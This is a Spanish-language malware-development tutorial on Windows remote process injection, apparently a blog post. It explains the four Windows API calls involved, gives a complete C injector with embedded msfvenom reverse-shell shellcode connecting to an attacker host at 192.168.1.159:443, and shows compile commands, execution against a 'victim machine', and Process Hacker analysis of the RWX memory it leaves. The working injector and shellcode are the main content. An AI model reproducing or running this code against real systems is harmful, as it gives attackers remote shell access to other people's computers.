> [!CAUTION]
> Contenido con fines educativos. Practica solo en sistemas propios o con autorización expresa por escrito.

## Introducción

En este post vamos a hablar de lo que sería una técnica más de process injection la cual podemos tener en mente en nuestro arsenal.

> [!NOTE]
> Recuerdo que lo que se va a mostrar en este post no se trata de evadir el AV/EDR, eso lo veremos en los siguientes artículos como se podría realizar.

## ¿Qué es Remote Process Injection?

Remote Process Injection es una técnica utilizada en el desarrllo de malware que se refiere al acto de insertar código o manipular la ejecución de un proceso en un sistema remoto desde otro sistema o ubicación. Para dejarlo un poco más claro y de manera más sencilla, es inyectar datos en otro proceso en ejecución. Por ejemplo podríamos inyectar shellcode en el proceso de calc.exe que esta siendo ejecutado.

## Metodología del Remote Process Injection

Lo primero que debemos de tener en mente es tener clara la estructura de este tipo de ataque. En este caso tendremos nuestro binario ejecutable y un proceso en ejecución que será la calculadora.



Cuando tenemos la calculadora (en este caso) en ejecución, el siguiente paso será crear un buffer de memoria en el proceso de la calculadora en donde el tamaño del buffer debe de ser como mínimo del tamaño de nuestro payload.



Una vez creado el empty buffer de memoria en el proceso de la calculadora deberemos de inyectar nuestro payload (shellcode).



Por último será poder ejecutar el código malicioso que alojamos en el buffer de la calculadora.



## Funcionamiento de las API functions

Para poder llevar todo esto a cabo deberemos de utilizar la API de Windows con la combinación más simple para poder realizarlo.

Lo primero que deberemos de hacer será abrir el proceso para poder acceder a él. Para ello utilizaremos la función [**OpenProcess**](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess).

```c++
HANDLE OpenProcess(
  [in] DWORD dwDesiredAccess,
  [in] BOOL  bInheritHandle,
  [in] DWORD dwProcessId
);
```

Esta función cuenta con 4 parámetros.

- `DWORD dwDesiredAccess` El acceso al objeto del proceso.
- `BOOL bInheritHandle` Si este valor es VERDADERO, los procesos creados por este proceso heredarán el identificador.
- `DWORD dwProcessId` El identificador del proceso local que se abrirá.

la función [**VirtualAllocEx**](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) reserva, confirma o cambia el estado de una región de memoria dentro del espacio de direcciones virtuales de un proceso específico.

```c++
LPVOID VirtualAllocEx(
  [in]           HANDLE hProcess,
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

Esta función cuenta con 5 parámetros para poder llevarse a cabo correctamente.

- `HANDLE hProcess` El identificador de un proceso.
- `LPVOID lpAddress` El puntero que especifica una dirección inicial deseada para la región de páginas que desea asignar.
- `SIZE_T dwSize` El tamaño de la región de memoria que se va a asignar, en bytes.
- `DWORD flAllocationType` El tipo de asignación de memoria.
- `DWORD flProtect` La protección de memoria para la región de páginas que se asignarán.

Lo siguiente será escribir el contenido de nuestro payload en el buffer que asignamos en el paso anterior en la calc.exe con la función [**WriteProcessMemory**](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory).

```c++
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
);
```

Esta función cuenta con 5 parámetros que deberemos de especificar para un funcionamiento correcto del mismo.

- `HANDLE hProcess` Un identificador de la memoria del proceso que se va a modificar.
- `LPVOID lpBaseAddress` Un puntero a la dirección base en el proceso especificado en el que se escriben los datos.
- `LPCVOID lpBuffer` Puntero al búfer que contiene datos que se escribirán en el espacio de direcciones del proceso especificado.
- `SIZE_T nSize` El número de bytes que se escribirán en el proceso especificado.
- `SIZE_T *lpNumberOfBytesWritten` Puntero a una variable que recibe el número de bytes transferidos al proceso especificado. Este parámetro es opcional (NULL).

Por últimpo deberemos de utilizar la función [**CreateRemoteThread**](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) para crear un hilo que se ejecuta en el espacio de direcciones virtuales de otro proceso.

```c++
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```

Esta función cuenta con 7 parámetros

- `HANDLE hProcess` Un identificador del proceso en el que se va a crear el hilo.
- `LPSECURITY_ATTRIBUTES lpThreadAttributes` Un puntero a una estructura **SECURITY_ATTRIBUTES** que especifica un descriptor de seguridad para el nuevo subproceso
- `SIZE_T dwStackSize` El tamaño inicial de la pila, en bytes.
- `LPTHREAD_START_ROUTINE lpStartAddress` Un puntero a la función definida por la aplicación que ejecutará el subproceso.
- `LPVOID lpParameter` Un puntero a una variable que se pasará a la función de subproceso.
- `DWORD dwCreationFlags` Las banderas que controlan la creación del hilo.
- `LPDWORD lpThreadId` Puntero a una variable que recibe el identificador del hilo.

Una vez claro más o menos una idea de como funcionan las funciones que vamos a utilizar y tener claro la metodología que utiliza esta función, comenzamos a programarlo.

## Desarrollo del Remote Process Injection

Lo primero necesitamos obtener el pid del proceso, lo podemos hacer con una función personalizada o indicándolo de manera harcodeada en el código o incluso indicándolo por teclado. En este caso he decidido implementar que el usuario lo introduzca por teclado.



Ahora vamos a asignar memoria en el proceso que hemos especificado.



Lo siguiente será que deberemos será copiar el payload almacenado de nuestro binario al buffer de memoria del proceso remoto (calc.exe).



Por último deberemos de indicar que proceso inicializará el hilo para poder ejecutar el payload.



## Generar el shellcode

Ahora necesitamos generar nuestro shellcode, que será el código que posteriormente será ejecutado. Para ello utilizaremos la herramienta `msfvenom` la cual viene de la suite de metasploit en donde será fundamental para generar nuestro shellcode.



## Codigo final

Una vez generado el shellcode deberemos de indicarlo en el implante.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// nuestra reverse shell [msfvenom]
unsigned char my_payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00"
"\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x01\x9f"
"\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
"\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29"
"\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48"
"\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea"
"\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
"\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81"
"\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00"
"\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0"
"\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01"
"\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41"
"\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d"
"\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48"
"\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5"
"\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int my_payload_len = sizeof(my_payload);

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // thread handle
  PVOID rb; // remote buffer

  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  rb = VirtualAllocEx(ph, NULL, my_payload_len, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  WriteProcessMemory(ph, rb, my_payload, my_payload_len, NULL);

  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

## Compilación

### Microsoft Visual Studio

En este caso si deseamos compilar el malware desde Visual Studio deberemos de configurar una serie de opciones para que no de error otros equipos a la hora de ejecutar el malware, ya sean maquinas virtuales o equipos de escritorio.

#### Code Generation Visual Studio



En este apartado lo que vamos a modificar es que a la hora de generar el código nos permita le deberemos de especificar `Multi-threaded Debug (/Mtd)` en caso de que deseemos el binario con una biblioteca de tiempo de ejecución que a su vez incluye información de depuración. Para la versión final del malware es recomendable utilizar `Multi-threaded (/MT)`.



Al utilizarlo podremos compilar para cualquier equipo para Windows x64.

### Desde un sistema Linux

Desde un sistema Linux

```shell
x86_64-w64-mingw32-gcc maldev.cpp -o maldev.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

1. `x86_64-w64-mingw32-gcc` Es el compilador GCC (GNU Compiler Collection) configurado para generar código para la arquitectura x86_64 (64 bits) en el entorno Windows usando el conjunto de herramientas de Mingw-w64.
2. `-s` Solicita al compilador que optimice el código resultante para reducir el tamaño del archivo ejecutable.
3. `-ffunction-sections` Indica al compilador que coloque cada función en una sección separada. Esto puede ayudar en la eliminación de código no utilizado durante la fase de enlace.
4. `-fdata-sections` Similar a la opción anterior, pero para variables y datos en lugar de funciones.
5. `-Wno-write-strings` Desactiva las advertencias relacionadas con la escritura en cadenas literales.
6. `-fno-exceptions` Indica al compilador que no genere código de manejo de excepciones.
7. `-fmerge-all-constants` Solicita al compilador que intente combinar constantes duplicadas.
8. `-static-libstdc++` Indica al enlazador que incluya la biblioteca estática de C++ estándar
9. `-static-libgcc` Similar a la opción anterior, pero para la biblioteca GCC (compilador de C).

## Ejecución



Como podemos ver el ID de proceso de la calc.exe es 10520. A continuación, ejecutamos nuestro inyector en la máquina víctima de la siguiente manera:



Al ejecutar como vemos se nos ejecuta el shellcode y nos llega.



## Analizamos el Funcionamiento

Para investigar nuestro exe, usaremos Process Hacker. Process Hacker es una herramienta de código abierto que le permitirá ver qué procesos se están ejecutando en un dispositivo, identificar programas que están consumiendo recursos de la CPU e identificar conexiones de red asociadas con un proceso en otro tipos de opciones que iremos descubriendo poco a poco en los posts.



Una vez ejecutado el binario. Luego en la pestaña de Network vemos que nuestro proceso establece conexión con 192.168.1.159:443 (host del atacante).

A su vez en el apartado de **Memory** podemos ver las diferentes regiones de la memoria de dicho binario a través del cuál podemos ver su protección. Con la función de VirtualAlloc podemos ver que asignamos una región de memoria en donde le asignábamos el permiso de protección `PAGE_EXECUTE_READWRITE (RWX)`. Lo podemos identificar fácil de la siguiente manera.



Si nos fijamos bien es el único apartado de la región del buffer en donde encontramos este tipo de permisos. A modo de consejo no es recomendable utilizar este tipo de permiso para poder ejecutar código debido a que es muy facil para AV/EDR de detectar a nivel de memoria.



Como podemos ver el contenido de ese apartado podemos encontrar en hexadecimal nuestro shellcode que generamos literalmente. El shellcode esta sin encriptar lo que hace que el AV/EDR nos detecte a nivel de IOC nuestro shellcode por lo tanto detectando el malware.

## Conclusión



Este post no trata de evadir el AV/EDR, trata sobre malware development en los siguientes post estaré hablando de diferentes formas de ejecutar código a través de la técnica de Dll Injection.
